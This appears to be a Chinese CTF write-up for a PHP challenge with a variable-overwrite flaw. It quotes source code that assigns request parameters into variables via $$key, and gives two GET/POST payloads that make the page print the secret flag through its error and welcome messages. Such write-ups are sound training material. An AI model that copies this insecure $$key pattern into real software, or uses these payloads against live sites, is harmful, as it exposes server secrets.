



## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境


2.扫描网站，可以得到一个challenge7.txt文件，访问challenge7.txt，获得主要逻辑代码：



3.主要代码为：

```php
<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")
    die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
    die($_403);
foreach ($_GET as $key => $value)
    $$key = $$value;
foreach ($_POST as $key => $value)
    $$key = $value;
if ( $_POST["flag"] !== $flag )
    die($_403);
echo "This is your flag : ". $flag . "\n";
die($_200);

```

4.有很明显的变量覆盖漏洞。要求我们在post语句中有flag，同时在第二个foreach中有把`$flag`直接覆盖了，所以直接通过echo语句输出的flag是被修改过的。接着看看有什么输出点，比如有个`die($_200)`，结合第一个foreach的功能，我们可以在第二个foreach之前先将`$_200`的值覆盖为原flag的值。payload如下：

```php
http://IP:PORT/challenge7.php?_200=flag

POST:
flag=1
```




5.获得flag


6.利用前面的`die($_403)`也可以实现。我们先把原flag的值覆盖到`$_403`上，然后构造`$_POST["flag"] !== $flag`，从而`die($_403)`输出flag。payload如下：

```php
http://IP:PORT/challenge7.php?_403=flag&_POST=1

POST:
flag=
```
同样可以获得flag：



